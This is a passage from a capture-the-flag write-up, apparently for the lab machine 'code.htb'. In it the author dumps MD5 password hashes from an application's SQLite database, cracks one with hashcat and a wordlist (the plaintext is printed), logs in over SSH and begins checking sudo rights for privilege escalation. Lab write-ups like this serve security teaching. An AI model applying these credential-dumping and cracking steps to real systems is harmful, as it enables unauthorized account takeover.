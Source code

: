 And we find an interesting file.

```bash
┌──(kali㉿kali)-[~/app/instance]
└─$ ls
database.db
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/app/instance]
└─$ file database.db                                                                                                                                        
database.db: SQLite 3.x database, last written using SQLite version 3031001, file counter 14, database pages 4, cookie 0x2, schema 4, UTF-8, version-valid-for 14
```

Throwing it into sqlite, we can get creds for the *martin* user.

```bash
┌──(kali㉿kali)-[~/app/instance]
└─$ sqlite3 database.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .databases
main: /home/kali/app/instance/database.db r/w
sqlite> .tables
code  user
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```
Those look like MD5 hashes. We can throw them into hashcat to get the password.

```bash
┌──(kali㉿kali)-[~/app/instance]
└─$ hashcat -m 0 3de6f30c4a09c27fc71932bfc68474be /usr/share/wordlists/rockyou.txt
<SNIP>
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
```

Using this, we can log into the martin user without our shell dying every second :).

```bash
┌──(kali㉿kali)-[~/app/instance]
└─$ ssh martin@code.htb 
<SNIP>
martin@code:~$ 
```
## Privesc to root

While getting the lay of the land, we come accross some sudo permissions.

```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```
